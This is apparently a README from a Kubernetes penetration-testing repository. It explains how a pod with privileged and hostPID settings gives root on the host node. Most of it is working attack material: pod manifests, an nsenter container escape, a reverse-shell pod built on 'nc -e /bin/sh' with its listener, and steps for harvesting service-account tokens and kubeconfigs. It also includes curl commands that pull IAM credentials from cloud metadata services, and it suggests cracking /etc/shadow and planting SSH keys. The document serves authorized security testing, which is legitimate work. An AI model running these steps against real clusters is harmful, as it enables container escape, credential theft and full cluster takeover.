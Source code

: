 # You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows also you gain a root shell on the host, which provides multiple potential paths to cluster-admin. 

One promising privesc path is available if you can schedule your pod to run on the control plane node using the nodeName selector (not possible in most cloud hosted k8s environments). Even if you can only schedule your pod on the worker node, you can access the node's kubelet credentials or you can create mirror/static pods in any namespace. You can also access any secret mounted within any pod on the node you are on. **In a production cluster, even on a worker node, there is usually at least one pod that has a `token` mounted that is bound to a `service account` that is bound to a `clusterrolebinding`, that gives you access to do things like create pods or view secrets in all namespaces**.  


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-and-hostpid
  labels: 
    app: pentest
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]    
    args: [ "while true; do sleep 30; done;" ]
    securityContext:
      privileged: true
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
  restartPolicy: Always
  ```
[pod-priv-and-hostpid.yaml](pod-priv-and-hostpid.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-priv-and-hostpid.yaml  
```
#### Option 2: Create pod from github hosted yaml
```
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-and-hostpid.yaml  
```

#### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-and-hostpid -- bash
```

#### Use nsenter to gain full root access on the node
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-everything-allowed-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-revshell
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    #nodeName: control-plane-node-name # Uncomment and change to control node name to try and schedule pod on control-plane node
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[pod-priv-and-hostpid-revshell.yaml](pod-priv-and-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3112
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3112" 
envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3112
Listening on 0.0.0.0 3112
Connection received on 10.0.0.162 42035
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token
```

### Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there

### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

# Reference(s): 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell
